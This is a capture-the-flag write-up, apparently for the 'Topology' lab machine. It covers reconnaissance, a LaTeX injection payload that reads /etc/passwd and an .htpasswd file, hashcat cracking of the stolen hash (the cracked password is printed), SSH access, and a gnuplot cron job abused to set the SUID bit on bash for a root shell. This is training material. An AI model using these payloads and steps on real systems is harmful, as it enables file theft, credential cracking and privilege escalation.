


# topology

| Hostname   | Difficulty |
| ---        | ---        |
| topology       |            |

Machine IP: 10.10.10.xx :

```bash
TARGET=10.10.10.10       # topology IP address
ATTACKER=10.10.14.10     # attacker IP
```

## Initial Reconnaissance

### Ports and services

```bash
nmap -T4 topology.htb -p- -sC -sV
```

```text
Nmap scan report for topology.htb (10.10.11.217)
Host is up (0.020s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 dcbc3286e8e8457810bc2b5dbf0f55c6 (RSA)
|   256 d9f339692c6c27f1a92d506ca79f1c33 (ECDSA)
|_  256 4ca65075d0934f9c4a1b890a7a2708d7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Miskatonic University | Topology Group
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### HTTP service

firefox http://topology.htb &


We can notice a few users from Staff:

- Professor Lilian Klein, PhD: Head of Topology Group
- Vajramani Daisley, PhD: Post-doctoral researcher, software developer
- Derek Abrahams, BEng : Master's student, sysadmin

In the "Software projects" section, there is a link : "[LaTeX Equation Generator](http://latex.topology.htb/equation.php) - create .PNGs of LaTeX equations in your browser". This leads to a vhost : "http://latex.topology.htb/equation.php".

Nothing more if found here, but we can look at other virtual hosts :

```shell
wfuzz -H "Host: FUZZ.topology.htb" --hc 404,403 -H "User-Agent: PENTEST" -c -z file,/opt/seclists/Discovery/DNS/subdomains-top1million-5000.txt  topology.htb | grep -v "6767 Ch"
```

The grep here will remove most of pages returned with the size of 6767 Ch.

output :

```text
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://topology.htb/
Total requests: 4989

=====================================================================
ID           Response   Lines    Word       Chars       Payload                      
=====================================================================

000000019:   401        14 L     54 W       463 Ch      "dev"
000000061:   200        5 L      9 W        108 Ch      "stats"
```

We can add this server to the hosts file :

```shell
echo "10.10.11.217 dev.topology.htb" >> /etc/hosts
echo "10.10.11.217 latex.topology.htb" >> /etc/hosts
echo "10.10.11.217 stats.topology.htb" >> /etc/hosts
```

When accessing with firefox the dev vhosts, this require an authentication :


the stats vhosts provide a graphic :



The latex vhost :


## Initial access

### Exploitation

From Hacktricks, we can build some [LateX Injection](https://book.hacktricks.xyz/pentesting-web/formula-doc-latex-injection)

```latex
\input{/etc/passwd}
```

Give a message : "Illegalcommand detected. Sorry.". There is somr kind of filtering

But :

```latex
\lstinputlisting{/etc/passwd}
```

give an error :

```text
The image "http://latex.topology.htb/equation.php?eqn=%5Clstinputlisting%7B%2Fetc%2Fpasswd%7D&submit=" cannot be displayed because it contains errors.
```

Another resource ( https://gitlab.com/pentest-tools/PayloadsAllTheThings/-/tree/master/LaTeX%20Injection ) show example with `$` sign at the beginig and the end of the injection.

Trying :

```latex
$\lstinputlisting{/etc/passwd}$
```

Give a result :



We have user "vdaisley".

Since we can read files, we could try to read the `.htpasswd` file that should contains some credentials for the dev vhosts :


Trying to guess this file location, since the default html files are located in `/var/www/html/index.html`. This is probably an apache instance with the user "www-data". So:

```latex
$\lstinputlisting{/var/www/dev/.htpasswd}$
```

Give 


vdaisley:$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0

This hash format is specifyed by apache :
https://httpd.apache.org/docs/2.4/misc/password_encryptions.html

> MD5: "$apr1$" + the result of an Apache-specific algorithm using an iterated (1,000 times) MD5 digest of various combinations of a random 32-bit salt and the password.

This can be broken with :

```shell
hashcat -m 1600 '$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0' /usr/share/wordlists/rockyou.txt
```

```text
$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0:calculus20 
```

trying SSH with this credential :

```shell
ssh vdaisley@topology.htb
```

and we have a shell.

### Maintaining access

## Post-Exploitation

### Host Reconnaissance

```shell
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64
updog
```

```shell
wget http://10.10.14.19:9090/pspy64
chmod +x ./pspy64
./pspy64
```

```text
2023/07/01 16:50:01 CMD: UID=0     PID=22239  | /usr/sbin/CRON -f 
2023/07/01 16:50:01 CMD: UID=0     PID=22238  | /usr/sbin/CRON -f 
2023/07/01 16:50:01 CMD: UID=0     PID=22241  | /usr/sbin/CRON -f 
2023/07/01 16:50:01 CMD: UID=0     PID=22242  | 
2023/07/01 16:50:01 CMD: UID=0     PID=22247  | /bin/sh /opt/gnuplot/getdata.sh 
2023/07/01 16:50:01 CMD: UID=0     PID=22246  | /usr/sbin/CRON -f 
2023/07/01 16:50:01 CMD: UID=0     PID=22245  | /bin/sh -c /opt/gnuplot/getdata.sh 
2023/07/01 16:50:01 CMD: UID=0     PID=22251  | cut -d   -f3,7 
2023/07/01 16:50:01 CMD: UID=0     PID=22250  | /bin/sh /opt/gnuplot/getdata.sh 
2023/07/01 16:50:01 CMD: UID=0     PID=22249  | /bin/sh /opt/gnuplot/getdata.sh 
2023/07/01 16:50:01 CMD: UID=0     PID=22248  | /bin/sh /opt/gnuplot/getdata.sh 
2023/07/01 16:50:01 CMD: UID=0     PID=22252  | /bin/sh -c find "/opt/gnuplot" -name "*.plt" -exec gnuplot {} \; 
2023/07/01 16:50:01 CMD: UID=0     PID=22253  | gnuplot /opt/gnuplot/loadplot.plt 
2023/07/01 16:50:01 CMD: UID=0     PID=22257  | sed s/,//g 
2023/07/01 16:50:01 CMD: UID=0     PID=22256  | /bin/sh /opt/gnuplot/getdata.sh 
2023/07/01 16:50:01 CMD: UID=0     PID=22255  | /bin/sh /opt/gnuplot/getdata.sh 
2023/07/01 16:50:01 CMD: UID=0     PID=22254  | uptime 
2023/07/01 16:50:01 CMD: UID=0     PID=22258  | tail -60 /opt/gnuplot/netdata.dat 
2023/07/01 16:50:01 CMD: UID=0     PID=22259  | tail -60 /opt/gnuplot/loaddata.dat 
2023/07/01 16:50:01 CMD: UID=0     PID=22260  | gnuplot /opt/gnuplot/networkplot.plt 
```

`find "/opt/gnuplot" -name "*.plt" -exec gnuplot {} \;` is a search for plt files

This is follewed by `gnuplot /opt/gnuplot/loadplot.plt` supposing `loadplot.plt` has been found and is been executed.

### Privilege Escalation

From the documentation :
http://gnuplot.info/docs_5.5/loc18483.html

we can craft a payload :

```bash
cat <<EOF > /opt/gnuplot/xplot.plt
system "chmod +s /usr/bin/bash"
EOF
```

After some time, the payload is executed :

```bash
ls -l /usr/bin/bash
-rwsr-sr-x 1 root root 1183448 Apr 18  2022 /usr/bin/bash
```

We can have a root shell:

```bash
bash -p
```
